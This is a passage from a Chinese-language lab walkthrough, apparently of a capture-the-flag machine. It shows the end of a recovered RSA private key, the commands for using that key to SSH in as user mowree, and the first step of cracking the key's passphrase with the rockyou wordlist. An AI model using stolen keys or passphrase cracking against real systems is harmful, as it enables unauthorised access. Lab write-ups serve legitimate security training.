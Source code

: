 >94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
>VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
>Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
>hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
>Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
>IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
>MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
>62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
>Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
>p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
>pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
>KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
>i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
>4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
>8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
>-----END RSA PRIVATE KEY-----
>```

### 11.手握公私钥尝试登陆

清点一下：

服务器支持公钥的认证方式--用户的目录下存在公钥--服务器允许用户mowree使用公钥登陆--拿取到了私钥--拥有私钥的任何用户都可以使用私钥尝试登陆服务器--不需要账号密码--利用公钥证明身份

```
cd ~
```

```
vi id_rsa
```

![image-20211208231311174](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208231311174.png)

```
chmod 600 id_rsa
```

![image-20211208231920190](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208231920190.png)

使用私钥ssh登陆

```
ssh mowree@192.168.0.108 -i id_rsa 
```

![image-20211208232318351](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208232318351.png)

再遇密码..没完没了..

### 12.爆破狂人约翰

霸王硬上弓-->爆破💣-->选择一本足够强大的字典📖

```
cp /usr/share/wordlists/rockyou.txt.gz . 
```
